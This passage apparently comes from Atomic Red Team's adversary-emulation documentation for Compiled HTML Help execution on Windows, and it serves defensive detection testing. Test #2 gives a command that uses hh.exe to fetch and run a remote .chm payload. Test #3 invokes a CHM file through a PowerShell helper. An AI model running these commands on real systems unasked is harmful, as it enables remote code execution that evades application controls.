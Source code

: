 ## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.
Upon execution displays an error saying the file cannot be open

**Supported Platforms:** Windows


**auto_generated_guid:** 0f8af516-9818-4172-922b-42986ef1e81d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.001/src/T1218.001.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{remote_chm_file}
```






<br/>
<br/>

## Atomic Test #3 - Invoke CHM with default Shortcut Command Execution
Executes a CHM file with the default Shortcut Command method.

**Supported Platforms:** Windows


**auto_generated_guid:** 29d6f0d7-be63-4482-8827-ea77126c1ef7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| chm_file_path | Default path of CHM | string | Test.chm|
| hh_file_path | path of modified HH.exe | path | $env:windir&#92;hh.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-ATHCompiledHelp -HHFilePath #{hh_file_path} -CHMFilePath #{chm_file_path}
```
